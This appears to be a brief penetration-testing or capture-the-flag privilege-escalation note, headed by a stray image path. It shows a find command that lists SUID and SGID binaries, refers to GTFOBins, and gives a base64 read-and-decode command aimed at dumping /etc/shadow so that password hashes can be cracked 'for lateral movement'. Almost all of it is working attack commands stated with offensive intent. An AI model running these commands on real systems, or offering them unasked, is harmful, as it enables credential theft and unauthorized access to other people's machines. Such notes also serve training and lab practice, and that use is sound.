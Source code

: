 List files that have SUID or SGID bits set.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Search results on https://gtfobins.github.io/#+suid

Base64 example:

Goal is to get into /etc/shadow and get a users hash to crack later for lateral movement.

```
LFILE=/etc/shadow

/usr/bin/base64 "$LFILE" | base64 --decode
```


